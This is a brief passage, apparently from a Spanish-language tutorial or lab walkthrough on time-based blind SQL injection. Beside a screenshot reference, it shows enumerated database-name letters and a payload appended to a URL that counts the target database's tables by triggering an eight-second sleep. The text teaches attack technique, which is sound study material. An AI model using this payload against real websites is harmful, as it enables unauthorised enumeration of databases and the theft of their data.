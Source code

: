 ![v_database](/assets/img/screens/database_4.png)

1/a 2/c 3/u 4/a 5/r 6/t

<br>
Averiguando la cantidad de tablas:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND IF((SELECT count(*) FROM information_schema.tables WHERE table_schema=database())=x,sleep(8),null);#</font></pre>
